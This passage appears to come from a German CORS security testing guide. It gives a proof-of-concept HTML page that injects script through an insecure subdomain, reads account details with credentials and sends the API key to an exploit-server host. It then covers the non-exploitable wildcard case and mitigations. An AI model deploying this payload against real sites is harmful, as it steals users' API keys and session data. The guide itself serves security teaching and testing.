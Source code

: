 ```javascript
<script>  
document.location="http://Insecure-subdomain/?productId=<script>var req = new XMLHttpRequest(); req.onload = retrieveKeys; req.open('get','APPLICATION URL/accountDetails',true); req.withCredentials = true;req.send();function retrieveKeys() {location='https://exploit-0a110003034945dec57758a8018500a8.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"  
</script>
```

Danach speichern wir das Skript als cors_poc.html, hosten es auf unserem Server und senden den Link an den Benutzer.

```javascript
<html>  
<body>  
<script>  
document.location="http://Insecure-subdomain/?productId=<script>var req = new XMLHttpRequest(); req.onload = retrieveKeys; req.open('get','APPLICATION URL/accountDetails',true); req.withCredentials = true;req.send();function retrieveKeys() {location='https://exploit-0a110003034945dec57758a8018500a8.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"  
</script>  
</body>  
</html>
```

Wie in den Screenshots unten zu sehen ist, hat das Skript beim Zugriff des Benutzers auf den Link die Nutzlast in den Parameter „productId“ eingefügt und den [[API-Schlüssel]] abgerufen.

### 3. Unexploitable Case: Wild Card (*)
Die Anwendung ist ***NICHT*** angreifbar, wenn Access-Control-Allow-Origin auf Wildcard * gesetzt ist, selbst wenn der Header Access-Control-Allow-Credentials auf true gesetzt ist. Der Grund dafür ist, dass eine Sicherheitsüberprüfung vorhanden ist, die den Allow-Credentials-Header deaktiviert, wenn der Ursprung auf einen Platzhalter gesetzt ist.

#### Mitigations
- Implementieren Sie geeignete [[CORS-Header]]: Der Server kann geeignete [[CORS-Header]] hinzufügen, um ursprungsübergreifende Anforderungen nur von vertrauenswürdigen Sites zuzulassen.
- Beschränken Sie den Zugriff auf sensible Daten: Es ist wichtig, den Zugriff auf sensible Daten nur auf vertrauenswürdige Domänen zu beschränken. Dies kann durch die Implementierung von Zugriffskontrollmaßnahmen wie [[Authentifizierung]] und Autorisierung erreicht werden.

##### Website
https://medium.com/r3d-buck3t/cross-origin-resource-sharing-cors-testing-guide-29616c225a0a